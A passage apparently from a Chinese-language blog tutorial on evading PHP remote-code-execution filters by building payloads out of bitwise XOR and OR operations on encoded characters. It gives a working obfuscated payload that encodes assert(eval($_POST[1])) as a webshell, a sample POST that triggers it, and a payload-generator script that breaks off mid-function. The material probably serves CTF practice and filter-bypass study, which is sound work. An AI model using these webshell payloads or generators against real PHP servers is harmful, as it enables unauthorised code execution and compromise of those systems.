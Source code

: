 ```php
# 生成最终的 payload
$encode_func = buildPayload($func, $xorMapping);
$encode_param = buildPayload($param, $xorMapping);

$payload = "($encode_func)($encode_param);";
echo "Payload: " . $payload . "\n";
```

生成payload

![4](https://the0n3.top/medias/phprce/4.png)

## 或

示例payload

```php
assert("eval($_POST[1]);");
# payload
(('%61'|'%61').('%73'|'%73').('%73'|'%73').('%65'|'%65').('%72'|'%72').('%74'|'%74'))(('%65'|'%65').('%76'|'%76').('%61'|'%61').('%6c'|'%6c').('%28'|'%28').('%24'|'%24').('%5f'|'%5f').('%50'|'%50').('%4f'|'%4f').('%53'|'%53').('%54'|'%54').('%5b'|'%5b').('%31'|'%31').('%5d'|'%5d').('%29'|'%29'));
# POST
1=phpinfo();    
```

![5](https://the0n3.top/medias/phprce/5.png)

使用`或`运算操作，重构实现上面`异或`脚本的效果

```php
<?php
/*
 * Author: the0n3
 * Date: 2025-01-21
 */

# 生成 OR 对应的可见字符映射
function or_generator() {
    $results = [];

    for ($x = 32; $x <= 126; $x++) {
        for ($y = 32; $y <= 126; $y++) {
            $result = $x | $y;
            if ($result >= 32 && $result <= 126) {
                $results[chr($result)] = "'%" . dechex($x) . "'|'%" . dechex($y) . "'";
            }
        }
    }

    return $results;
}

# 替换单个字符为 OR 表达式
function replaceCharWithOr($mapping, $char) {
    return isset($mapping[$char]) ? "(" . $mapping[$char] . ")." : $char;
}

# 拼接整个 payload
function buildPayload($input, $orMapping) {
    $result = '';
    
    foreach (str_split($input) as $char) {
        $result .= replaceCharWithOr($orMapping, $char);
    }
```